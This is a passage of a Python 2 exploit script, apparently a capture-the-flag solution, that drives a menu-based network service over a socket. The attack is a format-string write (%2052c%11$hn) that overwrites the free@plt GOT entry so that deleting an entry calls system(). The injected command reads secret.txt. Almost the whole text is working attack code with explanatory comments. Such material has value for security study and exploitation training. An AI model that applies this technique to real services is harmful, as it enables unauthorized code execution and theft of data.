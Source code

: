 ```python
	time.sleep(0.01)
	s.recv(100)
print s.recv(256)

# add mine, supply a string format argument which
# overwrites the last two bytes of free@plt pointer
s.send('1\n')
time.sleep(0.05)
print s.recv(512)

# we need to write the value 0x0804, which is 2052 
# in decimal
s.send('%2052c%11$hn\n') # -> 0x804 in hex
time.sleep(0.05)
print s.recv(512)

# pointer to free@plt+2
s.send('AA\x16\xb0\x04\x08CCCC\n') 
time.sleep(0.05)
print s.recv(512)

# don't care
s.send('666\n')
time.sleep(0.05)
print s.recv(512)

# invoke Show Profit && trigger format string exploit
s.send('4\n')
time.sleep(0.05)
print s.recv(512)
s.send('n\n')
time.sleep(0.05)
print s.recv(512)
s.send('y\n')
time.sleep(0.05)

# receive extra bytes (from the string format exploit)
print s.recv(2400)

# send payload, in another mine. we're going to delete it 
# right away to call system()
time.sleep(0.05)
s.send('1\n')
time.sleep(0.05)
print s.recv(512)

# shell command goes here
s.send('cat secret.txt 2&>1\n') 
time.sleep(0.05)
print s.recv(512)

# second command
s.send('bleh\n') #0x804b02c
time.sleep(0.05)
print s.recv(512)

# third command
s.send('blah\n')
time.sleep(0.05)
print s.recv(512)

# invoke Delete Mine, which triggers system() which our commands
s.send('3\n')
```